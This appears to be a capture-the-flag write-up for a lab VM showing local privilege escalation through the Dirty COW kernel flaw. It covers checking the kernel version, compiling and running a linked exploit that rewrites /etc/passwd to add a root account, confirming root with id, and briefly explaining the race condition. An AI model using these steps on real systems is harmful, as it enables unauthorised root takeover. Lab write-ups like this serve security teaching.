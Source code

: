 ## Dirty Cow

Repeat steps of the **writeup1** until you are log on laurie's ssh session.

Mdp:
```bash
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

We are looking for a vulnerability on the kernel, to find the version we use:
```bash
laurie@BornToSecHackMe:~$ uname -r
3.2.0-91-generic-pae
```

We're going on [exploit-db](https://www.exploit-db.com/), from there, we have the choice (not so true, I didn't find any other working vulnerabilities):
<br>![](../img/dirty-cow.png)

We select the [dirty cow](../scripts/dirty.c) exploit, as describe in it we compile then execute the binary:
```bash
laurie@BornToSecHackMe:~$ gcc -pthread dirty.c -o dirty -lcrypt
```
```bash
laurie@BornToSecHackMe:~$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
loiberti:lolUPgnIxZ9pU:0:0:pwned:/root:/bin/bash

mmap: b7fda000
^C
```
Then, we can log as **loiberti**:
```bash
laurie@BornToSecHackMe:~$ su loiberti
Password:
```
We can see that we're **root** with `id`:
```bash
loiberti@BornToSecHackMe:/home/laurie# id
uid=0(loiberti) gid=0(root) groups=0(root)
```

### Explication

Basically, versions 2.6 to 3.2 of the Linux kernel have a vulnerability based on a race condition, called Dirty-CoW. It has this name because this flaw is based on the exploitation of a Copy-On-Write (C-o-W).

It allows to modify any file on the system (/etc/shadow, SUID binaries, etc...) without needing the usual rights.

You can find detailed explications of the flaw [here](https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails).